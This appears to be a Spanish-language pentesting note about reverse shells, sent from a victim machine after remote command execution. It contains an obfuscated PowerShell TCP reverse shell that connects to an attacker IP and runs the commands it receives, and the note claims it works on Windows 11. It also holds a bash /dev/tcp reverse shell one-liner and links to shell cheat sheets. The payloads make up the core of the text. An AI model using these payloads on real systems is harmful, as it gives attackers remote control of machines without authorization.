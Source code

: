 
-------------

#vulnerabilidad #shell #explotacion

---------
Este tipo de Shell suele devolverse durante la ejecución remota de comandos en la máquina víctima.

Payload ofuscado a través de **POWERSHELL**  que funciona actualmente en windows 11

```powershell
 $S = "192.168.20.16"; $P = 4444; $T = [Net.Sockets.TCPClient]; $C = New-Object $T($S, $P); $N = $C.GetStream(); $R = [IO.StreamReader]; $W = [IO.StreamWriter]; $B = New-Object "System.Byte[]" 1024; $O = New-Object $R($N); $A = New-Object $W($N); $A.AutoFlush = $true; while($C.Connected){while($N.DataAvailable){$D = $N.Read($B, 0, $B.Length); $F = ([Text.Encoding]::UTF8).GetString($B, 0, $D - 1); if($C.Connected -and $F.Length -gt 1){$X=try{Invoke-Expression($F) 2>&1}catch{$_.Exception.Message};$A.Write("$X`n");}}}$C.Close();$N.Close();$O.Close();$A.Close();
```

![[Pasted image 20241014021812.png]]


---

### Mejores Comandos a la hora del envió de una Reverse Shell


Inicialmente cuando tenemos acceso a una ejecución remota de comandos [[Log Poisoning (LFI a un RCE)]]  necesitamos enviarnos una reverse shell para poder operar bajo consola, para esto el mejor comando de reverse shell es el siguiente, teniendo en cuenta que si lo tenemos que poner en una URL necesitamos hacerle un [[URL Encode]]:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.18/4444 0>&1'
```

- Obviamente teniendo en cuenta que debemos estar en escucha en el otro lado con listeners como por ejemplo [[NetCat]]

Una vez ya tengamos una Shell interactiva, podremos realizar el [[5. Tratamiento de la tty]] 


---

### Recursos Online para entablar Reverse Shell

- [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) -> Aqui estan los formatos generales de reverse shell
- [Revers Shell](https://www.revshells.com/) -> Generador online Automático de Reverse Shell 


